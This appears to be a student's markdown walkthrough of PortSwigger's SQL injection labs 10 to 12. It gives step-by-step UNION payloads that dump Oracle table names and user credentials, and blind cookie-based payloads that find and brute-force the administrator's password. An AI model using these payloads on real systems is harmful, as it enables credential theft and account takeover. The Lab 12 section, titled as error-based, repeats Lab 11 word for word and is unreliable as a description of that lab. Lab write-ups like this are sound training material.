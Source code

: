 # SQL Injection Part 3: Portswigger Labs
### [Lab 10: SQL injection attack, listing the database contents on Oracle](https://0a4000fb036fe53ec00903d500a80086.web-security-academy.net/filter?category=Lifestyle)
**To solve: Login as the administrator**

**STEP 1:**
Find number of columns 
```html
' UNION SELECT null,null FROM DUAL--
```

**STEP 2:**
Find columns that contains text
```html
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Output the list of tables in the database 
```html
' UNION SELECT table_name,null FROM all_tables--
```

**STEP 4:**
Output the column names of the users table
```html
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_RANDOM'--
```

**STEP 5:**
Use the USERNAME_RANDOM and PASSWORD_RANDOM column and USERS_RANDOM table to get credentials
```html
' UNION SELECT USERNAME_RANDOM,PASSWORD_RANDOM FROM USERS_RANDOM--
```

**STEP 6:**
Login

### [Lab 11: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**To solve: Login as administrator**

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```html
trackingId = "xxxxxxxxxxxxx' and 1=0--
```

> If this tracking id exists -> query returns value -> Welcome back message

> If the tracking id doesn't exist -> query returns nothing > no welcome back message

**STEP 2:**
Confirm users table exist
```html
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```html
trackingId = 'xxxxxxxxxxxxx' and (select username from users where username='administrator') = 'administrator'--
```

**STEP 4:**
Enumerate the password length
```html
trackingId = 'RVLfBu6s9EZRUVYN' and (select username from users where username = 'administrator' and LENGTH(password) > 1 ) = 'administrator'--
```

> we graually increase the length of password till we don't get welcome back message

> Till 19 character we get welcome back message -> password is exactly 20 character

**STEP 5:**
Enumerate the password
```html
trackingId = 'RvLfBu6s9EZRLVYN' and (select substring(password,1,1) from users where username='administrator')='a'--
```

> substring divides the password -> This give us oppurunity to bruteforce each character at a time

**STEP 6:**
Login

### [Lab 12: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**To solve:**
Login as administrator

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```html
trackingId = "xxxxxxxxxxxxx' and 1=0--
```

> If this tracking id exists -> query returns value -> Welcome back message

> If the tracking id doesn't exist -> query returns nothing > no welcome back message

**STEP 2:**
Confirm users table exist
```html
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```html
trackingId = 'xxxxxxxxxxxxx' and (select username from users where username='administrator') = 'administrator'--
```

**STEP 4:**
Enumerate the password length
```html
trackingId = 'RVLfBu6s9EZRUVYN' and (select username from users where username = 'administrator' and LENGTH(password) > 1 ) = 'administrator'--
```

> we graually increase the length of password till we don't get welcome back message

> Till 19 character we get welcome back message -> password is exactly 20 character

**STEP 5:**
Enumerate the password
```html
trackingId = 'RvLfBu6s9EZRLVYN' and (select substring(password,1,1) from users where username='administrator')='a'--
```

> substring divides the password -> This give us oppurunity to bruteforce each character at a time

**STEP 6:**
Login




